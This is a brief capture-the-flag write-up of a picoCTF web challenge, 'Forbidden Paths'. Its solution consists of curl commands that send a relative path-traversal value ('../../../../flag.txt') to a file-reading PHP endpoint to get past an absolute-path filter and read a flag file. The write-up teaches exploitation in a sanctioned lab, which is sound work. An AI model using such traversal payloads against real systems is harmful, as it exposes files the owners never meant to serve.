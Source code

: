 # [Forbidden Paths [Web Exploitation] [200 Points] #

## Description ##
Can you get the flag?

We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. 

Can you get past the filter to read the flag?

Here's the website.

## Hints ##

## Solution ##

### Step 1: Description ###
![](images/webpage.png)

![](images/webpage_flag.png)


    curl -d 'filename=../../../../flag.txt' http://saturn.picoctf.net:62822/read.php

![](images/webpage_retrieveFlag.png)

    curl -d 'filename=../../../../flag.txt' http://saturn.picoctf.net:62822/read.php | grep -oE 'picoCTF{.*}' | tee >(xsel -b)



